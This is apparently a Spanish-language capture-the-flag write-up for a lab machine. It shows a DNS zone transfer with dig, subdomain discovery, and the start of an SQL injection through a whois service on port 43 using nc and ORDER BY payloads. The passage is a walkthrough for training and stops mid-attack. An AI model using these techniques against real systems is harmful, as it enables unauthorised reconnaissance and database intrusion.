1. Ejecutamos el ataque de transferencia de zona

    ```bash
    dig @10.10.10.155 supersechosting.htb axfr
    ```

Aqui vemos que es vulnerable y vemos unos dominios 

    - root.supersechosting.htb
    - ftp.supersechosting.htb
    - whois.supersechosting.htb
    - www.supersechosting.htb
    - mail1.supersechosting.htb
    - ns1.supersechosting.htb

Los añadimos al `/etc/hosts`

```{r, echo = FALSE, fig.cap="hosts despues del domain transfer attack", out.width="90%"}
    knitr::include_graphics("images/scavenger-hosts2.png")

![scaveer-hosts2](/assets/images/scavenger-hosts2.png) 
#### Whois {-}

Como el puerto 43 esta abierto. podemos intentar conectar con la maquina para entablar peticiones whois.

```bash
nc 10.10.10.155 43
EEEE
#Output
% SUPERSECHOSTING WHOIS server v0.5beta@MariaDB10.1.37
% This query returned 0 object
```

Como vemos que MariaDB esta por detras intentamos ponerle una comilla

```bash
nc 10.10.10.155 43
'
#Output
% SUPERSECHOSTING WHOIS server v0.5beta@MariaDB10.1.37
1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB...
```

### SQL Injection por Whois {-}

Como el mensaje nos da `the right syntax to use near "''")` ya vemos como podemos montarnos el ataque.

```bash
nc 10.10.10.155 43
') ORDER BY 100#
#Output
Unknown column '100' in 'order clause'
```
